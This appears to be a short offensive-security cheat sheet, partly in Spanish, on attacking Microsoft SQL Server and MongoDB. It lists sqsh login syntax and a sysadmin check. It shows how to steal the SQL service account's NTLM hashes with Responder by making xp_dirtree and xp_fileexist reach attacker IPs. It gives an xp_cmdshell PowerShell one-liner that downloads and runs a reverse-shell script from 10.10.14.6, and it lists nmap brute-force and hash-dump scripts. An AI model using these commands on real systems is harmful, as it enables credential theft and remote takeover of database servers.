 ## sqsh
```
sqsh -S mssql -D MyDB -U DOMAIN\\testuser -P MyTestingClearPassword1
```
## mssql commands
```
select IS_SRVROLEMEMBER (​ 'sysadmin'​ ) # check permisions
```

## responder
steal hashes of the SQL service account by using xp_dirtree or xp_fileexist.

* en kali:
```
responder -I tun0 -rv
```
* en windows
```
SQL>exec xp_dirtree '\\10.10.14.6\share\file'
SQL>exec xp_fileexist '\\10.10.16.2\share\file'
```


## mssql reverse shell
```
SQL> xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://10.10.14.6/Invoke-PowerShellTcp.ps1\")
```


## nmap nse
```
ms-sql-brute.nse
ms-sql-config.nse
ms-sql-dac.nse
ms-sql-dump-hashes.nse
ms-sql-empty-password.nse
ms-sql-hasdbaccess.nse
ms-sql-info.nse
ms-sql-ntlm-info.nse
ms-sql-query.nse
ms-sql-tables.nse
ms-sql-xp-cmdshell.nse
```


#  MongoDB
### 27017 27018
---
## nmap nse
```
mongodb-brute.nse
mongodb-databases.nse
mongodb-info.nse
```
ver web para sqli
